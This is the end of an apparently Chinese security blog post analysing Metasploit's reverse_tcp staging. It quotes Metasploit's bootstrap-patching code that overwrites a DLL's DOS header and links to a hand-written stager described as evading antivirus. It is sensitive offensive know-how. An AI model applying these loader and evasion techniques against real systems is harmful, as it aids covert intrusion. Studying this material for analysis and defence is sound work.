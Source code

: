 ```c
asm = asm_invoke_metsrv(asm_opts)//返回了上面 asm_invoke_metsrv 函数中的汇编 
# generate the bootstrap asm 
bootstrap = Metasm::Shellcode.assemble(Metasm::X86.new, asm).encode_string//生成引导代码 
# sanity check bootstrap length to ensure we dont overwrite the DOS headers e_lfanew entry 
if bootstrap.length > 62 
    raise RuntimeError, "Meterpreter loader (x86) generated an oversized bootstrap!" 
end 

# patch the bootstrap code into the dll's DOS header... 

dll[ 0, bootstrap.length ] = bootstrap//替换原有的 dos 头
```

主要是生成了一段 bootstrap(引导代码)，接着在 12 行使用生成的引导代码替换掉了 stages 的 dos 头。

## 手写 Stager 替代 shellcode

上面已经把 msfvenom 生成的 shellcode 干了什么给搞清楚了，现在咱们来手写一个 Stager，这样也是有一定的免杀效果的，因为在我们编写的 Stager 中是没有 shellcode 存在。

[文章链接](https://forum.butian.net/share/1614)

## 总结

文章主要通过分析 metasploit 代码与流量分析，解释了 metasploit 中 reverse\_Tcp 的 shellcode 的上线过程，接着用 c 语言实现了一个 stager，文章内容比较基础，而且难免会有错误，请各位师傅斧正。如果有不清楚的地方欢迎私信骚扰。

## 参考

-   [https://github.com/rapid7/metasploit-payloads](https://github.com/rapid7/metasploit-payloads) rapid7 公开的 metasploit 的载荷源码
-   [https://github.com/rapid7/ReflectiveDLLInjection](https://github.com/rapid7/ReflectiveDLLInjection) 反射式 dll 注入
-   [https://github.com/stephenfewer/ReflectiveDLLInjection](https://github.com/stephenfewer/ReflectiveDLLInjection)
-   [https://bbs.kanxue.com/thread-247616.htm](https://bbs.kanxue.com/thread-247616.htm)
-   [https://www.cnblogs.com/Akkuman/p/12859091.html](https://www.cnblogs.com/Akkuman/p/12859091.html)
-   [https://xz.aliyun.com/t/1709](https://xz.aliyun.com/t/1709)
